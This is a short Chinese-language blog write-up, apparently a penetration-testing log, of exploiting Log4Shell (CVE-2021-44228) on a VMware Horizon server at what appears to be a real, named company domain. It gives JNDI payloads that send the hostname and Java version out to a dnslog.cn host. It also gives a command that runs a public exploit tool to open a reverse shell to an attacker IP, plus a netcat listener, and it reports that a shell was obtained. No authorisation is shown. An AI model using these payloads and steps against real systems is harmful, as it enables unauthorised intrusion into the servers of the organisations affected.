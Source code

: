 ```yaml
---
title: VMWare Horizon 漏洞利用案例
date: 2023-09-15 18:53:00 +0800
img_path: /
categories: [肾透, 漏洞利用]
tags: [肾透, 漏洞利用]     
---
```


# VMWare Horizon 漏洞利用案例

## 前期测试

漏洞url：[VMware Horizon (yghuagong.com)](https://system.yghuagong.com/)

VMWare Horizon 存在 log4j2 CVE-2021-44228 漏洞

手动复现未果，直接当脚本小子上工具吧。有时候打不进去是因为工具不对！

漏洞利用工具：https://github.com/puzzlepeaches/Log4jHorizon

本次复现流程：

测试是否存在log4j(先利用DNSlog外带出一些基本信息)

 ${jndi:dns://${hostName}.rn6t7t.dnslog.cn}

${jndi:dns://${sys:java.version}.rn6t7t.dnslog.cn}

![image-20230915230059796](assets/image-20230915230059796.png)

## 攻击过程

攻击机：

```python3
python3 exploit.py -r -t system.yghuagong.com -p 9001 -i 101.43.147.82
```

监听：

```bash
nc -lvvp 9001
```

先开启监听9001端口

![image-20230915230437510](assets/image-20230915230437510.png)

利用攻击脚本：

![image-20230915230504022](assets/image-20230915230504022.png)

接收到shell：

![image-20230915230550477](assets/image-20230915230550477.png)

《上号！》
